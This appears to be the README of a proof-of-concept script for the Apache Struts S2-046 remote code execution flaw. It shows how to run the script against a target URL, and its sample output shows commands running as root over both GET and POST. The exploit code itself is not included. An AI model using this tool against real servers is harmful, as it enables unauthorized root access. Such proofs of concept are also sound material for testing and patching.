 # S2-046_POC
##  Usage:
    ./s2_046.sh [url]
    
##  Sample:
  
  1. chmod +x ./s2_046.sh       
  2. ./s2_046.sh http://172.16.152.135/index.action
    
##  OUTPUT:
    ================HTTP GET Method================
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    ================HTTP POST Method================
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
